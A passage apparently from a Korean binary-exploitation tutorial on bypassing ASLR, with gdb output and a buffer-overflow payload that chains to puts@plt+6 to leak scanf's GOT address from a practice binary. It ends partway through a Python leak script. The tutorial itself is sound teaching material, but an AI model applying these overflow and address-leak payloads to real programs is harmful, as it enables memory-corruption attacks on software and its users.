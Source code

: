 ```
   0x8048326 <puts@plt+6>:	push   0x0
   0x804832b <puts@plt+11>:	jmp    0x8048310
(gdb) x/3i 0x8048340
   0x8048340 <__isoc99_scanf@plt>:	jmp    DWORD PTR ds:0x804a014
   0x8048346 <__isoc99_scanf@plt+6>:	push   0x10
   0x804834b <__isoc99_scanf@plt+11>:	jmp    0x8048310
(gdb) 
```
메모리에 로딩된 libc.so.6 라이브러리의 주소를 구하는 방법에 대해 알아보자.
앞서 라이브러리 함수를 사용하고 나면, GOT에 해당 함수의 주소가 저장된다는 것을 배웠다.
바이너리에 존재하는 puts 함수의 PLT를 이용해 scanf의 GOT에 있는 scanf 함수의 실제 주소를 출력해보도록 하자.
먼저 puts의 PLT주소를 구한다. main 함수에서 puts@plt의 주소인 0x8048320을 구했다.
또한 scanf의 PLT에서 참조하는 주소 0x804a014가 scanf의 GOT 주소인 것을 알 수 있다.
scanf에서 "%s" 포맷 스트링을 이용해 입력을 받기 때문에 주의해야 할 것이 있다. "%s" 포맷 스트링은 공백(0x20)이나 개행(0x0A) 등 단어를 구분하는 문자를 입력하면 더이상 입력을 받지 않는다.
puts 함수의 PLT 주소는 공백 문자로 시작하기 떄문에, 해당 문자를 입력한 이후에 공격 코드를 삽입할 수가 없다.
PLT를 호출하는 과정을 생각해보면, puts@plt가 아닌 puts@plt+6으로 점프해도 puts@plt를 호출한 것과 같은 결과가 된다.
떄문에 공격 코드에서는 입력의 종료를 방지하기 위해 0x8048320이 아닌 0x8048326을 사용한다.

scanf의 GOT 주소에 저장된 값을 출력해보자.
```
$ (python -c 'print "A"*36+"\x26\x83\x04\x08"+"AAAA"+"\x14\xa0\x04\x08"';cat) | ./example4
Hello World!
Hello ASLR!
????
[1]    124132 broken pipe                       ( python -c 'print "A"*36+"\x26\x83\x04\x08"+"AAAA"+"\x14\xa0\x04\x08"'; cat;  | 
       124134 segmentation fault (core dumped)  ./example4
```

출력결과를 보면, ????와 같은 non-printable character가 출력된 것을 볼 수 있다. 이는 scanf 함수 주소에 아스키 범위를 넘어선 문자가 존재하기 떄문이다.
이렇듯 동적으로 변화하는 아스키 범위 밖의 문자를 읽기 위해서는 공격 코드를 스크립트로 작성할 필요가 있다.
파이썬을 이용해 공격 코드를 작성하면 아래와 같다. 아래의 코드는 puts 함수를 호출해 scadnf@got의 메모리를 가져오는 파이썬 스크립트이다.
``` python
#!/usr/bin/python2.7
'''
example4_leak.py
'''
import struct
import subprocess
import os
import pty
def readline(fd):
  res = ''
  try:
    while True:
      ch = os.read(fd, 1)
      res += ch
      if ch == '\n':
        return res
  except:
    raise
def writeline(proc, data):
  try:
    proc.stdin.write(data + '\n')
  except:
    raise
def p32(val):
  return struct.pack("<I", val)
def u32(data):
  return struct.unpack("<I", data)[0]
out_r, out_w = pty.openpty()
s = subprocess.Popen("./example4", stdin=subprocess.PIPE, stdout=out_w)
```